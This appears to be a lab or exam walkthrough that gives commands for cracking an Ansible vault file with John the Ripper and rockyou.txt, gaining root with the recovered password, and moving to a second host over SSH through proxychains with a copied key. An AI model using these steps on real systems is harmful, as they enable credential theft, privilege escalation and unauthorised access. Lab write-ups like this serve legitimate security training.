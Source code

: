# DEV02 Privesc then lateral movement to DEV03

The file .root.enc in the HOME folder contains a Vault that can be cracked.  
1. Copy the file .root.enc onto your Kali
2. Put the content on one line, and convert it to a John format using `python3 /usr/share/john/ansible2john.py root.enc vault.hash`
3. Crack it using JtR: `john --wordlist=rockyou.txt vault.hash`
4. Go back on DEV02, decrypt the vault using `cat the_vault | ansible-vault decrypt`, put the recovered password from John
5. The output is the root/sudo password, privesc using `sudo su` (or `su`)
6. Connect to DEV03 using the SSH key of the Ansible user that you copy on your Kali: `proxychains ssh ansible@172.16.X.224 -i ansible_ssh_key`


If you have any question, feel free to contact me on Discord Tamarisk#3723
Note : this document is subject to evolution to better fit your needs. We keep in touch !